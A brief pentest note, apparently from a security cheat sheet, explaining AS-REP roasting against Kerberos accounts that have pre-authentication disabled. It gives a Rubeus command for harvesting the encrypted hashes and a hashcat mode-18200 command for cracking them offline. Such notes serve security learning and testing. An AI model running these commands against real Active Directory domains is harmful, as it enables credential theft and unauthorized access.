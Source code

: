 Overview
During pre-auth, the users hash will be used to encrypt a timestamp that the DC will attempt to decrypt to validate that the right has is being used. After validating the timestamp the KDC will then issue a TGT for the user. If pre-auth is disabeld you can request any auth data for any user and the KDC will return an encrypted TGT.

```powershell
Rubeus.exe asreproast
```
```bash
hashcat -m 18200 hash.txt Pass.txt
```